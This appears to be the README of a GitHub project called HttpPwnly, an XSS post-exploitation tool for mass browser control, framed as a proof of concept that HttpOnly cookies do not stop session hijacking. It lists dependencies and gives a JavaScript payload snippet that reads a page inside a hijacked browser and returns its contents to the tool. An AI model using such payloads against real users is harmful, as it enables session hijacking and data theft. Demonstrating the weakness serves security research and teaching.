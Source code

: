 # HttpPwnly

"Repeater" style XSS post-exploitation tool for mass browser control. Primarily a PoC to show why HttpOnly flag isn't a complete protection against session hijacking via XSS.

## Dependencies:
pip install flask flask_sqlalchemy flask_cors flask-socketio eventlet

## Demo:
https://www.youtube.com/watch?v=HQYzJKpBHjk

## Asynchronous payloads:
To overide normal task output data within your payload (for example in order to retrieve output from XMLHttpRequest), call the "sendOutput" function and pass it your intended output. For example:

```javascript
var xmlhttp = new XMLHttpRequest();
  xmlhttp.onreadystatechange = function() {
    if (xmlhttp.readyState == 4 && xmlhttp.status == 200) {
      sendOutput(id,xmlhttp.responseText);
    }
  };
xmlhttp.open("GET", "/", true);
xmlhttp.send();
```
